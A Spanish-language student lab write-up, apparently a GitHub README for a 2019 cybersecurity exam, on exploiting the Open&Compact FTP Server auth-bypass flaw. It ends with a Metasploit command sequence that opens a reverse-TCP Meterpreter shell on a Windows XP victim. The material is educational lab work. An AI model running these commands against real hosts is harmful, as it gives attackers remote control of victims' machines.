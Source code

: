 # Parcial_Ciberseguridad
PARCIAL CIBERSEGURIDAD 2019 - CRISTHIAN CHICA A. - 1152466424

Vulnerabilidad:
Este modulo explota multiples vulnerabilidades en el servidor Open&Compact FTP, como omisión de autenticacion y vulnerabilidad en
la carga de archivos arbitrario, es decir que esto permite a un atacante remoto escribir archivos en el sistema de archivos siempre que un usuario tenga
permisos, este modulo solo funciona con versiones inferiores a Windows Vista.
Existe una perdida completa de la proteccion del sistema, lo que hace que este se vea comprometido, no es necesario estar autenticado
para explotar la vulnerabilidad

Sistema Operativo:
El sistema operativo desde el cual se hace el ataque es Kali-Linux y el sistema operativo victima es Windows XP SP3

Software:
A parte de las maquinas virtuales ->Kali-Linux y Windows XP SP3, se hace uso del software Open-ftpd.1.2

Instructivo:
Inicialmente procedemos a correr las maquinas virtuales ->Kali-Linux y Windows XP SP3, una vez hecho esto descargamos el Open&Compact
FTP Server 1.2 o inferior a esta, ya que el exploit solo funciona con estas versiones, lo pasamos a traves de la Carpeta Compartida a Kali-Linux para que de una vez abramos la consola y descomprimamos el archivo con extension tar.gz, hecho esto pasamos el archivo por medio de la carpeta compartida a la maquina virtual Windows XP SP3 y corremos el ejecutable "ftp.exe" con esto ya garantizamos el requisito para poder realizar el exploit, observamos que direccion ip tienen ambas maquinas, despues en Kali-Linux procedemos a cargar la consola de metasploit, seleccionamos el tipo de exploit que en ese caso es el "exploit/windows/ftp/open_ftpd_wbem" de ahi debemos de setear el tipo de payload que usaremos, en el caso utilizamos un payload de tipo stage para poder hacer uso del meterpreter que opera mediante inyeccion dll y no deja rastros en el disco duro, luego indicamos con lhost cual será la maquina atacante y con rhost cual sera la maquina victima, realizado esto procedemos a hacer el exploit, es decir, a hacer provecho de la vulnerabilidad de seguridad del sistema. Se crea la sesión del meterpreter y a partir de aquí ya accedo a la maquina victima.

COMANDOS:
msfconsole
use exploit/windows/ftp/open_ftpd_wbem
set payload windows/meterpreter/reverse_tcp
set lhost <ip_atacante>
set rhost <ip_victima>
exploit
meterpreter>sysinfo
meterpreter>shell
